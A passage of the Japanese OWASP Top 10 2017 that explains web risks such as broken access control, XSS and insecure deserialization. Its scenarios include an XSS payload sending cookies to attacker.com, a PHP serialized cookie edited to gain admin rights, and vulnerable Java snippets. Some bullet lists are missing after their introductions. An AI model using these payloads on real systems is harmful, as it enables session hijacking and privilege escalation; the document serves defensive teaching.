技術への影響は、攻撃者が一般ユーザ、管理者、または特権機能を持ったユーザとして振る舞ったり、すべてのレコードの作成、アクセス、更新、削除を行ってしまうことです。ビジネスへの影響は、アプリケーションとデータの保護の重要性に依存します。 |
アクセス制御はユーザが予め与えられた権限から外れた行動をしないようにポリシーを適用します。ポリシー適用の失敗は、許可されていない情報の公開、すべてのデータの変更または破壊、またはユーザ制限から外れたビジネス機能の実行につながることが多いです。一般的なアクセス制御の脆弱性は以下のような場合に発生します:
攻撃者がアクセス制御のチェックやメタデータを変更することができず、信頼できるサーバーサイドのコードまたはサーバーレスAPIで実施される場合にのみ、アクセス制御は機能します。
シナリオ #1: アプリケーションが、アカウント情報にアクセスするSQL呼出しに未検証のデータを使用しています。
pstmt.setString(1, request.getParameter("acct"));
ResultSet results = pstmt.executeQuery();攻撃者は、単にブラウザでパラメータ'acct'を任意のアカウント番号に改変して送信します。適切な検証がない場合、攻撃者は任意のアカウントにアクセスできます。
http://example.com/app/accountInfo?acct=notmyacct
シナリオ #2: ある攻撃者は、ブラウザでURLを指定してアクセスします。管理者ページにアクセスするには管理者権限が必要です。
http://example.com/app/getappInfo
http://example.com/app/admin_getappInfo認証されていないユーザがこれらのページにアクセスすることができるなら、欠陥があります。管理者でない人が管理者のページにアクセスできるなら、それも欠陥です。
| 脅威エージェント/攻撃手法 | セキュリティ上の弱点 | 影響 |
|---|---|---|
| アクセスレベル : 悪用のしやすさ 3 | 蔓延度 3 : 検出のしやすさ 3 | 技術面への影響 2 : ビジネス面への影響 |
| 攻撃者は、パッチを当てていない穴を悪用したり、デフォルトのアカウントや使われていないページ、保護されていないファイルやディレクトリなどにアクセスし、権限無しにアクセスしたり、システム情報を取得したりします。 | 不適切なセキュリティの設定は、どのレベルのアプリケーションスタックにも起こりえます。それはネットワークサービスやプラットフォーム、Webサーバ、アプリケーションサーバ、データベース、フレームワーク、カスタムコード、プレインストールしてある仮想マシンやコンテナ、ストレージです。自動化したスキャナーは、不適切な設定、つまりデフォルトのアカウントや設定、必要のないサービスやレガシーなオプションなどが使われているのを見つけるのに便利です。 | この欠陥によって、攻撃者は得てして権限無しにシステムのデータや機能にアクセスしてしまいます。場合によっては、そのような欠陥によってシステム全体が損なわれてしまいます。 ビジネスへの影響は、アプリケーションとデータにどの程度保護が必要とされているかによります。 |
アプリケーションが下記のようなら、恐らく脆弱です。
アプリケーションのセキュリティを設定するプロセスを一致協力して繰り返さないと、システムのリスクはより高くなります。
安全にインストールするプロセスにおいて、以下のことを実施すべきです:
シナリオ #1: アプリケーションのサンプルが付属しているアプリケーションサーバであるにもかかわらず、プロダクションサーバからサンプルが削除されていません。このサンプルアプリケーションには、攻撃者がサーバに侵入する際によく使う既知の脆弱性があります。そのアプリケーションが管理用のコンソールでデフォルトのアカウントが変更されていないと、攻撃者はデフォルトのパスワードを使ってログインし、乗っ取ってしまいます。
シナリオ #2: ディレクトリリスティングがサーバ上で無効になっていません。攻撃者はそれを見つけ出し、やすやすとディレクトリを表示してしまいます。攻撃者はコンパイル済みのJavaクラスを見つけてダウンロードし、デコンパイルしてからリバースエンジニアリングしてコードを見ます。そして攻撃者は、そのアプリケーションの深刻なアクセス制御上の穴を見つけます。
シナリオ #3: アプリケーションサーバの設定が、詳細なエラーメッセージ(例えば、スタックトレース)をユーザに返すようになっています。これによって機微な情報や脆弱であるとされているコンポーネントのバージョンといった潜在的な欠陥がさらされる恐れがあります。
シナリオ #4: クラウドサービスプロバイダは、他のCSPユーザによるデフォルトでインターネットに公開された共有パーミッションを用意しています。こうなると、機微な情報がクラウドストレージに保存され、アクセスされてしまいます。
この分野でさらに知りたいのなら、 Application Security Verification Standard V19 Configurationを参照してください。
| 脅威エージェント/攻撃手法 | セキュリティ上の弱点 | 影響 |
|---|---|---|
| アクセスレベル : 悪用のしやすさ 3 | 蔓延度 3 : 検出のしやすさ 3 | 技術面への影響 2 : ビジネス面への影響 |
| 3種類のXSSはいずれも、自動化ツールを用いて検出および悪用することが可能です。また、誰でも入手できる、XSSを悪用するためのフレームワークも複数存在します。 | XSSは、OWASP Top 10の中では2番目に多く見られる問題であり、アプリケーション全体のおよそ三分の二で検出されます。自動化ツールで、いくつかのXSS問題を検出できます。PHP、J2EE/JSP、またはASP.NETのような成熟した技術においては、特にそれが顕著です。 | XSSの影響は、リフレクトおよびDOMベースの場合は中程度、ストアドの場合は重大となります。具体的な被害例として、被害者のブラウザ上でリモートコードが実行されることによる、認証情報やセッションの奪取、被害者へのマルウェア感染が挙げられます。 |
XSSには3種類のタイプが存在し、大抵は被害者のブラウザがターゲットとされます:
典型的なXSS攻撃には、セッションの奪取、アカウントの乗っ取り、多要素認証(MFA)の回避、DOMノードの置換または改竄(トロイの木馬を介した偽のログイン画面挿入等)、悪質なソフトウェアのダウンロードやキーロギング等のユーザのブラウザに対する攻撃などが含まれます。
XSSを防止するには、信頼できないデータを動的なブラウザコンテンツから区別する必要があります。以下を実施します:
シナリオ #1: あるアプリケーションは、検証やエスケープをせず、信頼出来ないデータを使用して、以下のHTMLスニペットを生成しています。
(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";
攻撃者はブラウザでパラメータ‘CC’を以下に改変します。
'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'
これにより、被害者のセッションIDが攻撃者のウェブサイトに送信され、被害者のセッションが乗っ取られます。
注意: 攻撃者は、アプリケーションが使用している自動化されたCSRF対策を、XSSで破ることができます。
| 脅威エージェント/攻撃手法 | セキュリティ上の弱点 | 影響 |
|---|---|---|
| アクセスレベル : 悪用のしやすさ 1 | 蔓延度 2 : 攻撃検知のしやすさ 2 | 技術面への影響 3 : ビジネス面への影響 |
| 既成のエクスプロイト手法は、元のエクスプロイトコードに変更や調整を加えずに攻撃が成功するケースはまれです。そのためデシリアライゼーションの悪用は、容易ではありません。 | この問題は、OWASPが行った業界調査に基づきTop10に組み込まれましたが、定量的なデータに基づいたものではありません。 ツールによっては、デシリアライゼーションに関する欠陥を発見可能ですが、問題を検証するために、多くの場合、人手による支援が必要です。 問題の特定と対応を支援する道具立てが開発されるに伴い、デシリアライゼーションに関する欠陥が蔓延するであろうことが予想されます。 | デシリアライゼーションの欠陥による影響は、憂慮すべきものです。 これらの欠陥は、最も深刻な攻撃の一つであるリモートコード実行攻撃を可能にします。 ビジネス面への影響は、アプリケーションとデータを保護する重要性に依存します。 |
攻撃者により供給された悪意を持った、あるいは改ざんされたオブジェクトのデシリアライズにより、アプリケーションとAPIは脆弱になります。
主な2種類の攻撃:
シリアライゼーションが、以下のような用途にアプリケーションで使用される場合：
安全なアーキテクチャを実現するには、シリアライズされたオブジェクトを信頼できないデータ供給元から受け入れないか、もしくはシリアライズ対象のデータをプリミティブなデータ型のみにします。
上記の対策を取れない場合、以下の防止方法から一つ以上を検討してください：
シナリオ #1: Reactアプリケーションが、一連のSpring Bootマイクロサービスを呼び出します。
関数型言語のプログラマーは、イミュータブルなコードを書こうとします。
そこで、プログラマーは、呼び出しの前後でシリアライズしたユーザーの状態を渡す、と言う解決策を思いつきます。
攻撃者は （base64でエンコードされていることを示す）"r00"と言うJavaオブジェクトのシグネチャに気づき、Java Serial Killerツールを使用してアプリケーションサーバー上でリモートコードを実行します。
シナリオ #2: あるPHPフォーラムでは、PHPオブジェクトのシリアライゼーションを使用して、ユーザーのユーザーID、ロール、パスワードハッシュやその他の状態を含むSuper Cookieを保存します。：
a:4:{i:0;i:132;i:1;s:7:"Mallory";i:2;s:4:"user";i:3;s:32:"b6a8b3bea87fe0e05022f8f3c88bc960";}
攻撃者は、シリアライズされたオブジェクトを変更して攻撃者自身に管理者権限を与えます。
a:4:{i:0;i:1;i:1;s:5:"Alice";i:2;s:5:"admin";i:3;s:32:"b6a8b3bea87fe0e05022f8f3c88bc960";}
| 脅威エージェント/攻撃手法 | セキュリティ上の弱点 | 影響 |
|---|---|---|
| アクセスレベル : 悪用のしやすさ 2 | 蔓延度 3 : 検出のしやすさ 2 | 技術面への影響 2 : ビジネス面への影響 |
| 多くの既知の脆弱性に対し、公開されている攻撃方法を見つけることは簡単ですが、それ以外の脆弱性は攻撃方法を新たに開発する労力を要します。 | この弱点は広く蔓延しています。コンポーネントを多用する開発スタイルは、開発チームがアプリケーションやAPIにおいて、どのコンポーネントを使用しているかを理解していないため、最新に保たれにくくなります。Retire.jsのような脆弱性スキャナーは、脆弱性を見つけるのに役立ちますが、悪用のしやすさを判断するには更なる労力が必要になります。 | いくつかの既知の脆弱性は、軽微な影響に留まりますが、これまでの最大級のセキュリティ侵害は、コンポーネントの既知の脆弱性を悪用したものでした。保護する資産によっては、おそらくこのリスクはもっとも注意すべきリスクであるはずです。 |
以下に該当する場合、脆弱と言えます:
以下に示すパッチ管理プロセスが必要です：
いかなる組織も、アプリケーションまたはポートフォリオの存続期間は、モニタリングとトリアージを行い更新または設定変更を行う継続的な計画があることを確認する必要があります。
シナリオ #1: コンポーネントは通常、アプリケーション自体と同じ権限で実行されるため、どんなコンポーネントに存在する欠陥も、深刻な影響を及ぼす可能性があります。そのような欠陥は、偶発的（例：コーディングエラー）または意図的（例：コンポーネントのバックドア）両方の可能性があります。
発見済みの悪用可能なコンポーネントの脆弱性の例：
攻撃者を助けるようなツールがあり、パッチが未適用なシステムやシステムの設定ミスを自動的に見つける事ができます。例えば、Shodan IoT search engineは、2014年4月にパッチが適用されたHeartbleedの脆弱性などセキュリティに問題のある機器を見つけることができます。
| 脅威エージェント/攻撃手法 | セキュリティ上の弱点 | 影響 |
|---|---|---|
| アクセスレベル : 悪用のしやすさ 2 | 蔓延度 3 : 検出のしやすさ 1 | 技術面への影響 2 : ビジネス面への影響 |
| 不十分なロギングとモニタリングの悪用が、ほぼすべての重大なインシデントの背後にあります。モニタリングとタイムリーな対応の不備を突き、攻撃者は攻撃を検知されることなく目標を達成します。 | 業界調査に基づいてこの問題はTop 10に追加されました。十分にモニタリングされているかどうかを判断するための方法の1つは、ペネトレーションテスト後のログを調べることです。どのような損害を引き起すのかを理解するために、テスターの行動に対して十分なログが記録される必要があります。 | 成功した攻撃の多くは脆弱性の下調べから始まります。このような下調べを見逃し続けることによって、脆弱性攻撃の成功率がほぼ100％になる可能性があります。2016年には侵害を特定するのに平均191日という多くの時間がかかりました。 |
ロギングや検知、モニタリング、適時の対応が十分に行われないという状況は、いつでも発生します:
ユーザまたは攻撃者がログやアラートのイベントを閲覧できると、情報の漏えいが発生する可能性があります（A3:2017-機微な情報の露出を参照）。
アプリケーションによって保存または処理されるデータのリスクに応じて対応する：
OWASP AppSensor、OWASP ModSecurity Core Rule Setを使用したModSecurityなどのWebアプリケーションファイアウォール、カスタムダッシュボードとアラートを使用したログ相関分析ソフトウェアなど、商用およびオープンソースのアプリケーション保護フレームワークがあります。
シナリオ #1: 小さなチームが運営するオープンソースのプロジェクトフォーラムソフトウェアが、ソフトウェアの欠陥を突かれてハッキングされました。攻撃者は次期バージョンと、すべてのフォーラムの内容を含む内部のソースコードリポジトリを削除しました。ソースコードは回復することができましたが、モニタリング、ロギング、アラートの欠如によって問題が悪化してしまいました。この問題の発生により、フォーラムソフトウェアプロジェクトは活発ではなくなりました。
シナリオ #2: 良くあるパスワードを使用するユーザに対して、攻撃者はスキャンを実施します。彼らは、このパスワードを使用しているすべてのアカウントを乗っ取ることができるようになります。他のユーザにとって、このスキャンは1回だけ失敗したログインとなります。また別の日に、スキャンは異なるパスワードで繰り返される場合があります。
シナリオ #3: 米国の大手小売業者が、添付ファイルを分析する内部マルウェア分析サンドボックスを持っていたとのことです。サンドボックスソフトウェアは、望ましくないと思われるソフトウェアを検知しましたが、誰もこの検知に対応しませんでした。サンドボックスは、外部の銀行による不正なカード取引によって侵害が検知されるまで、しばらくの間警告を発し続けていました。
Webアプリケーションのセキュリティに関して不慣れか、これらのリスクに既に非常に精通しているかにかかわらず、セキュアなWebアプリケーションの構築や存在する脆弱性の修正は困難な場合があります。大規模なポートフォリオを管理しなければならない場合には、この作業はかなり気力をくじきます。
組織や開発者がコスト効率を考慮しながら、アプリケーションのセキュリティリスクを減らせるように、OWASPは、組織でのアプリケーションセキュリティに着手するための数々の無料でオープンなリソースを開発しています。セキュアなWebアプリケーションやAPIを構築するためにOWASPが開発してきた多くのリソースの一部を以下に示します。次のページでは、WebアプリケーションやAPIのセキュリティを検証する際に、組織が活用できるOWASPの他のリソースを記載しています。
| 活動 | 説明 |
|---|---|
| アプリケーションセキュリティ要件 | セキュアなWebアプリケーション開発のために、各アプリケーションにおけるセキュリティ要件を定義しなければなりません。OWASPでは、アプリケーションのセキュリティ要件設定におけるガイドとしてOWASP Application Security Verification Standard (ASVS)を活用することを推奨します。もし開発を外部に委託するのであれば、OWASP Secure Software Contract Annexを参照して下さい。注意: このドキュメントは米国の契約法に基づきます。そのため、当該ドキュメントのサンプルを活用する前に、弁護士に相談してください。 |
| アプリケーションセキュリティアーキテクチャ | アプリケーションやAPIにセキュリティを後付けで組み込むよりもむしろ、開発初期段階からセキュリティを設計に組み込む方が、コスト効率がずっと良くなります。OWASPでは、まず開発初期からセキュリティを設計に組み込む指針にOWASP Prevention Cheat Sheetsを推奨します。 |
| 標準的なセキュリティ制御 | 強力かつ可用なセキュリティ制御の構築は困難です。標準なセキュリティ制御を組み合わせることで、セキュアなアプリケーションまたはAPI開発を根本的に簡略化できます。開発者はまずOWASP Prevention Cheat Sheets を参照するとよいでしょう。そして、最新のフレームワークでは、認可・検証・CSRF対策などの標準的なセキュリティ制御を効率よく実装できます。 |
| セキュアな開発ライフサイクル | セキュアなアプリケーションやAPIを開発する際に、組織が従うべきプロセスを改善するため、OWASPはOWASP Software Assurance Maturity Model (SAMM)を推奨しています。組織が直面する特定のリスクに適応するソフトウェアセキュリティの戦略を構築および実施する際に、このモデルが役に立ちます。 |
| アプリケーションセキュリティ教育 | OWASP Education Projectでは、Webアプリケーションセキュリティに関する開発者向けトレーニングに役立つ教育コンテンツを公開しています。脆弱性に関する実地訓練には、OWASP WebGoat、WebGoat.NET、OWASP NodeJS Goat、OWASP Juice Shop Project、そしてOWASP Broken Web Applications Projectを試して下さい。最新情報の入手には、OWASP AppSec Conference、OWASP Conference Training、そして各地で開催されるOWASP Chapter meetingsに参加して下さい。 |
他にも数多くのOWASPの資料が入手できます。OWASP Projectsにアクセスして下さい。そこでOWASP project inventoryを開くと、すべてのFlagship、Labs、Incubatorプロジェクトがあります。ほとんどのOWASPの資料はwikiで閲覧ができます。そしてOWASPの多くの文書をハードコピーや電子書籍で注文できます。
セキュアにコードを実装することは重要です。しかし、構築しようとしているセキュリティがあり、それが正しく実装され、あらゆる箇所に適用されていることを確認することも重要です。アプリケーションセキュリティテストの目的は、セキュアな実装がなされていることの証跡を得ることです。アプリケーションセキュリティテストは難しく、複雑であり、アジャイルやDevOpsのような最新の高速な開発プロセスにおいては、従来のアプローチやツールでは立ち行かなくなっています。そのため、アプリケーションポートフォリオの全体において、重要と考えられることにどのように焦点をあて、費用対効果の高い手法をとるべきかを考慮することを強く推奨します。昨今、リスクは急速に変化を遂げており、毎年1回程度、脆弱性スキャンや侵入テストが行われています。また昨今のソフトウェア開発においては、ソフトウェア開発ライフサイクル全体での継続的なアプリケーションセキュリティテストが要求されています。開発スピードを損なうことのないようセキュリティの自動化を施し、既存の開発プロセスを強化してください。どのアプローチを選択したとしても、アプリケーションポートフォリオの規模に応じたテスト、トリアージ、修復、再テスト、再デプロイに係る年間コストを考慮してください。
| 活動 | 説明 |
|---|---|
| 脅威モデルの理解 | テストを開始する前に、何に対して時間を費やすべきか理解していることを確認してください。優先順位は脅威モデルに基づき決定できます。そのため、脅威モデルが検討されていない場合には、テストを実施する前に検討する必要があります。脅威モデルの検討にあたっては、OWASP ASVS と OWASP Testing Guide を活用することを検討し、ツールベンダーに依存することなく、ビジネスにおいて重要視されることを決定してください。 |
| SDLC（ソフトウェア開発ライフサイクル）の理解 | アプリケーションセキュリティテストのアプローチは、ソフトウェア開発ライフサイクルにおける、人材、プロセス及び使用するツールに馴染みがある必要があります。余計なステップ、ゲート、レビューを強制することで、軋轢を生み、バイパスされ、失敗する可能性があります。セキュリティ情報を収集し、プロセスにフィードバックする機会を探しましょう。 |
| テスト戦略 | 各要件を検証するための最も簡単で、高速、かつ、正確な方法を選択してください。OWASP Security Knowledge Framework とOWASP Application Security Verification Standard を単体・総合テストにおける機能及び非機能のセキュリティ要件を策定する際に参照できます。自動化したツールを利用したことによるfalse-positiveに対処することに加え、重大なfalse-negativeに対処するための人的リソースの確保を考慮してください。 |
| 範囲と正確さの達成 | すべてをテストする必要はありません。まずは重要なことに焦点をあて、段階的に検証プログラムの範囲を拡張していきます。つまり、自動的に検証されている一連のセキュリティ実装とリスクの範囲を拡張し、適用される一連のアプリケーションとAPIの範囲を拡張していくことを意図しています。すべてのアプリケーションとAPIが本質的にセキュアであることを継続的に検証される状態とすることを目的にしています。 |
| 明確な結果の伝達 | どんなに良いテストを行ったとしても、それを効果的に伝えなければ何の違いもありません。アプリケーションの仕組みを理解していることを示すことにより、信頼を築きましょう。専門用語を羅列せず明確に記述し、実際に悪用する際の攻撃シナリオを含めましょう。脆弱性がどの程度悪用され得るか、どの程度の被害を受けるのかを現実的に評価してください。最後に、PDFファイルではなく、開発チームがすでに使用しているツールで結果を提供しましょう。 |
アプリケーションセキュリティの実装は必須になっています。増加する攻撃と規制の圧力の間で、アプリケーションとAPIを保護するための効果的なプロセスや能力を組織において確立する必要があります。すでに開発した膨大な数のアプリケーションとAPIの長大な行数のコードがあり、多くの組織では膨大な量の脆弱性に対処することに奮闘しています。OWASPはアプリケーションとAPIにおけるセキュリティを改良するためにアプリケーションセキュリティのプログラムを組織において確立することを推奨しています。アプリケーションセキュリティを実現するには、セキュリティと監査、ソフトウェア開発、ビジネス及びエグゼクティブマネジメントを含む、組織のさまざまな部門が効率的に連携する必要があります。各部門において組織におけるアプリケーションセキュリティの実態を把握できるよう、セキュリティの見える化を図り、計測可能な状態にすべきです。リスクを排除または低減することにより企業のセキュリティを向上させるような活動や成果に集中しましょう。以下のリストに示す活動のほとんどは、OWASP SAMMとOWASP Application Security Guide for CISOsに掲載されています。
アプリケーションは、人が定期的に作成し、維持する最も複雑なシステムです。アプリケーションにおけるITマネジメントは、アプリケーションのITライフサイクル全体の責任を有するITスペシャリストにより実施されるべきです。アプリケーションオーナーと技術的に同等な立場の者としてアプリケーションマネージャを確立することをお勧めします。アプリケーションマネージャは、ITの観点から、要件策定からシステムの廃棄に至るまでのアプリケーションライフサイクル全体を担当します。
Top 10のリスク格付手法は、OWASP Risk Rating Methodologyに基づいています。我々は各Top 10のカテゴリに対して、典型的なWebアプリケーションのそれぞれの弱点について、一般的な発生可能性と影響要素をみて、リスクを推計しました。そしてアプリケーションに対してもっとも重大なリスクをもたらすような弱点に基づいてTop 10を整理しました。これらの要素は、物事が変化し進化するにつれて、新しいTop 10がリリースされる度に更新されます。
OWASP Risk Rating Methodologyは脆弱性のリスクを計算するために、多数の要素を定義しています。ただし、実際のアプリケーションやAPIにおける特定の脆弱性よりも、Top 10は一般論を議論すべきです。従って、我々は、リスク計算においてアプリケーションオーナーまたは管理者より、精緻になることはありません。アプリケーションとデータの重要性、脅威の内容、システムの構築方法や運用などに合わせ、ご自身で判断する必要があります。
我々が使用している手法は、弱点の発生可能性に関する三つの要素（蔓延度、検出のしやすさ、悪用のしやすさ）と一つの影響要素（技術面への影響）を含めています。各要素のリスクの尺度は、各要素に特有の用語を用いて、低(1)から高(3)までの範囲です。弱点の「蔓延度」は計算する時に、必ずしも含む必要はありません。「蔓延度」データについて、いくつもの組織（25ページの謝辞参照）から統計資料の提供を受け、それらの「蔓延度」に関するデータをまとめ上げ、「蔓延度」によるTop 10の存在可能性リストを作成しました。このデータは、他の二つの発生可能性に関する要素（検出のしやすさ、悪用のしやすさ）と合わせて、各弱点の発生可能性の格付を計算しました。そしてその発生可能性の評価において、各弱点ごとに我々が推計した「技術面への影響」の平均値から、Top 10各項目のリスク順位の全体像を生成しました。（高いほど高リスク）。検出のしやすさ、悪用のしやすさ、影響は、Top 10のそれぞれのカテゴリーに関連して報告されたCVEを分析して計算しました。
注記:このアプローチが「脅威エージェント」の可能性を考慮していないことに注意して下さい。また、特定のアプリケーションの技術的な詳細も考慮していません。攻撃者が特定の脆弱性を突く際に、これらの要素が全体の発生可能性に大幅な影響を与える可能性があります。この評価はあなたのビジネスへの実際の影響も考慮していません。あなたの組織の文化、業界、規制などを考慮して、どのぐらいのセキュリティリスクをアプリケーションとAPIに対して負うかを決定してください。OWASP Top 10の目的は、特定のアプリケーションやAPIを想定したリスク分析ではありません。
以下に、A6:2017-不適切なセキュリティ設定を例として、我々の計算を示します。

下の表は、2017 Top 10アプリケーションのセキュリティリスクと各リスクに紐付けたリスクファクターのまとめです。これらのファクターは、OWASP Top 10チームが持つ統計資料と経験に基づき決定しました。それぞれのアプリケーションや組織におけるリスクを理解するために、「脅威エージェント」と「ビジネス面への影響」を考慮しないといけません。ソフトウェアに甚大な弱点があったとしても、攻撃をする「脅威エージェント」がいない、或いは関連資産への「ビジネス面への影響」が極めて少ない場合、重大なリスクにはなりません。

Top 10は、幅広く含めていますが、考慮・評価すべきリスクは、他に多数あります。以前のTop 10に含まれていたリスクもありますが、まだ識別されていない新たな攻撃手法もあります。他に考慮すべき重要なアプリケーションのセキュリティリスクを以下に示します（CWE-ID順）：
OWASP Project Summitにおいて、参加者とコミュニティメンバーは、データの量と調査の質の2つの観点から脆弱性の評価を実施することを決定しました。
調査のために、これまでに"最先端"であると特定されたか、Top10メーリングリストの2017 RC1へのフィードバックにおいて言及された脆弱性のカテゴリーを収集しました。それらのカテゴリーを調査内容に含め、回答者にOWASP Top 10 - 2017に含めるべきと考える上位4つの脆弱性を選択するよう促しました。調査は、2017年8月2日〜9月18日まで実施され、516の回答を得ました。
| ランク | 脆弱性カテゴリ | スコア |
|---|---|---|
| 1 | Exposure of Private Information ('Privacy Violation') [CWE-359] | 748 |
| 2 | Cryptographic Failures [CWE-310/311/312/326/327] | 584 |
| 3 | Deserialization of Untrusted Data [CWE-502] | 514 |
| 4 | Authorization Bypass Through User-Controlled Key (IDOR & Path Traversal) [CWE-639] | 493 |
| 5 | Insufficient Logging and Monitoring [CWE-223 / CWE-778] | 440 |
Exposure of Private Informationは、明確に重大な脆弱性ですが、既存の A3:2017-機微な情報の露出 に含まれています。Cryptographic Failuresは A3:2017-機微な情報の露出 に含まれています。 Deserialization of Untrusted Dataは、 A8:2017-安全でないデシリアライゼーション として位置付けました。4番目のUser-Controlled Keyは、 A5:2017-アクセス制御の不備 に含めています。調査においてはより上位のランクとすべきといった意見もありましたが、認可の脆弱性に関連するデータが十分ではなかったためA5としています。5番目のInsufficient Logging and Monitoringは、 A10:2017-不十分なロギングとモニタリング として位置付けました。 アプリケーションは何が攻撃になり得るのか定義し、適切なロギング、アラート、エスカレーション、レスポンスを生成できる必要があり、その点を考慮しました。
一般的に、収集され分析されたデータはテストしたアプリケーションで検出した脆弱性の数の頻データに沿っています。よく知られているように、ツールは脆弱性のすべてのインスタンスを報告し、人がその中から単一の結果を報告します。この2つの種類のレポートを同等の方法で集計するのは非常に困難です。
2017においては、与えられたデータセットのうち1つまたは複数の特定のデータ・セットを持つアプリケーションの数に基づき、発生率を計算しました。より多くの貢献者から2つの観点で情報を提供いただきました。1つ目は、脆弱性のすべてのインスタンスを数える従来の頻度スタイルであり、2つ目は、脆弱性が1回またはそれ以上検出されたアプリケーションの数です。完璧ではありませんが、これにより、ツールの結果と人の結果の双方を比較することができます。ローデータ及び分析作業結果はGitHubでご確認いただけます。次以降のTop 10のバージョンに向け、この方法をさらに拡張していく予定です。
コールフォーデータ（CFD）においては、40以上の情報を提供いただきました。これらのほとんどは、頻度に焦点を当てたデータだったため、23の貢献者からの114,000以上のアプリケーションをカバーする情報を利用することができました。 1年かけて貢献者の特定を行いました。Veracodeからの年間のデータには繰り返し登場するアプリケーションがあることを認識していましたが、大半のアプリケーションは独自のものでした。使用した23のデータは、ツールの結果または人の結果のいずれかに区別しました。 100%以上の発生率となったデータは最大値が100%となるよう調整しました。発生率を計算するために、各脆弱性が含まれていることが判明したアプリケーションの割合を計算しました。発生率のランキングは、Top 10に位置付けられている全てのリスクの計算のために使いました。
Top 10 2017の作成に際して、脆弱性の情報を提供してくださった以下の組織に対して感謝の意を表します。
データコントリビューターの一覧は一般公開されています。
GitHubにおいてTop 10に貢献するために多くの時間を費やした以下の個人のコントリビューター及びTwitter、電子メール、その他の手段で貢献してくださった方々に感謝の意を表します。
Dirk Wetter、Jim Manico、Osama Elnaggarhaveからは多大なる支援をしていただきました。また、Chris Frohoffand Gabriel LawrenceはA8:2017-安全でないデシリアライゼーションの執筆において貴重なサポートをしていただきました。